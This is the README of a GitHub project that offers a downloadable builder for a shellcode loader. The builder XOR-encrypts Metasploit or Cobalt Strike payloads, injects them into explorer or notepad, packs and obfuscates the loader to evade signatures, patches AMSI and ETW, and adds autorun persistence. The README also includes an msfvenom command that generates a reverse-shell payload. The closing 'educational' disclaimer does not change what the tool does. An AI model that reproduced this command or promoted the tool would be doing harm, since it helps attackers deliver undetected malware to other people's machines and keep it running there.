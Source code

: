 # ⚔️ <b>Shellcode Loader 1.0</b>
>![CSHARP](https://img.shields.io/badge/Language-CSHARP-purple?style=for-the-badge&logo=csharp) <img src="https://img.shields.io/github/v/release/K3rnel-Dev/Advanced-Shellcode-Loader?style=for-the-badge&color=cyan"> <img src="https://img.shields.io/github/downloads/K3rnel-Dev/Advanced-Shellcode-Loader/total?style=for-the-badge&color=pink"> <img src="https://img.shields.io/github/license/K3rnel-Dev/Advanced-Shellcode-Loader?style=for-the-badge&color=red"></img> 
>![Banner](banner.png)

### > **[⬇️ Download for Windows](https://github.com/K3rnel-Dev/Advanced-Shellcode-Loader/releases/download/Build/Binaries.zip)**  

```diff
- to compile this project required and dnlib package
```

# 📕 About 
> <b>This is a simple implementation of my automated shellcode-loader builder when we do not have an executable file or we need to take the shellcode directly from the file and implement a program that needs to be loaded onto the end station, I automated this a little with support for shellcode encryption, its bytes are taken and encrypted using xor and when launched, they are decrypted in memory in one of these processes "explorer" or "notepad", so far there are only 2 processes to choose from, in the future I will slightly correct this option. The builder also has support for a packer to compress the main loader and hide static signatures, and there is also an obfuscator functionality containing various loader mutation algorithms, these are simple algorithms designed for simple obfuscation, there is also support for fake signatures for the DIE static analyzer. The actual shellcode bytes are taken and parsed directly from the file, their pattern is { 0x... <PAYLOAD BYTES> }. Then the standard process: encryption, transfer to the loader stub and compilation.</b>

# 💉 Support shellcode:
    1) Metasploit shellcode (csharp)
    2) Cobalt Strike shellcode (csharp)

 ```shell
 msfvenom -p windows/shell_reverse_tcp LHOST=<iface> LPORT=<port> -f csharp > shell.txt # metasploit

 # Cobalt Strike
 Payloads -> Stager Payload Generator
 Output -> C#
 Use x64 payload -> set true
 ```
<br>

# ⚙️ Features
- 🖥️ **Compress**: Simple implementation of compression and hiding of static signatures of the main loader.
- ⚔️ **Shellcode Encryption**: Shellcode Byte Encryption and Decryption and their Implementation in Memory.
- 🚀 **Autorun**: Autostart application after OS restart.
- ⚙️ **Conditional Compilation**: Allows the builder to include only the features and options chosen by the user, making the final build more streamlined.
- 🔒 **Custom Renaming and Obfuscation**: Includes customizable renaming of functions and string encryption to make the code less readable and harder to analyze.
- 🎃 **Amsi/Etw patches**: Support for "EtwEventTrace" patches and "AmsiScanBuffer" functions.
<br>

# 📽️ Showcase:

https://github.com/user-attachments/assets/70e8e488-bdb8-439a-9da4-7521efb3a566

## 📸 **Screens**: 
> ![1](1.png)
> ![2](2.png)
> ![3](3.png)
<br>

## ⚠️ **Disclaimer**: 
```
This project is for educational purposes only, intended for studying malware and security techniques. The author is not responsible for any malicious use of this software.
```
<br>

# ⭐ Credits 

- **Author**: <a href="https://github.com/k3rnel-dev">@K3rnel-Dev</a>
- **dnlib**: A library for manipulating .NET assemblies.  
  GitHub: [https://github.com/0xd4d/dnlib](https://github.com/0xd4d/dnlib)
---
